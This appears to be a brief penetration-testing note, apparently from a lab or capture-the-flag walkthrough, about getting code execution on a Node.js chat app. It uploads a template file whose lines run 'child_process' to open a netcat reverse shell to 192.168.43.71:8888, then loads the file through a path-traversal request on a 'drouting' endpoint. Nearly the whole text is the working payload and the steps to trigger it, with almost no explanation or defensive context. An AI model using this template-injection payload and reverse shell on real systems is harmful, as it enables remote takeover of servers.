


# Template RCE upload

## Template RCE upload

In node, you cannot upload a file an browse it like we did with PHP files ...

* **We need to use something called drouting**

  ```text
  /drouting
  ```

Create a file \(- means execute javascript\)

```text
-var x= global.process.mainModule.require
-x('child_process').exec('nc 192.168.43.71 8888 -e /bin/bash')
```

* **Upload the txt file** 



* **Get the filename and the path :**

[http://chat:3000/drouting?filename=../uploads/fa9af1c0108bbcd0ebf4a5e784db4eb6](http://chat:3000/drouting?filename=../uploads/fa9af1c0108bbcd0ebf4a5e784db4eb6)

* **Get a shell :**



